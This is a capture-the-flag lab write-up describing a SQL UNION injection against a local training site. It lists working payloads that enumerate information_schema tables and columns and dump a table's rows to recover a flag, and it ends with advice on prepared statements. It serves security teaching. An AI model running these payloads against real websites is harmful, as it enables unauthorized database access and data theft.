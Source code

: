 # SQL UNION ATTACK
A union attack attempts to pull information from an additional table that is not the current table that is being queried.

### Step 1
> * http://0.0.0.0/index.php?page=searchimg
> * Input into data search using ID's, try tentative search with integer and then without

### Step 2
> * Confirm SQL vulnerabitlity with 1 = 1 or 1, this one however does not return error messages

### Step 3
> * Attack
> 1. Confirm number off return columns and data types
 > * trial and error:  
> _1 = 1 or 1 ORDER BY 1_...  
> _UNION SELECT ‘a’,NULL_...
>
> 2. Find tables within current database  
 >_1 or 1 = 1 UNION SELECT 1,concat(table_name) FROM information_schema.tables WHERE table_schema = database()_  
> **list_images**
>
>3. Find columns within desired table  
 >_1 and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_schema = database()_  
>**id,url,title,comment**
>4. Find data  
 >_1 and 1=2 union select 1,concat(id,url,title,comment) from list_images_  
 <br>**5borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46**  
 <br>_MD5 DECRYPT-> 1928e8083cf461a51303633093573c46 => albatroz_  
 <br> _toLower -> albatroz => albatroz_  
 <br>_Sh256 ENCRYPT -> albatroz => **f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188**_  

> * https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635

## Prevention
> * Prepared statements: allows the database to distinguish between code and data, regardless of what user input is supplied.
> * https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html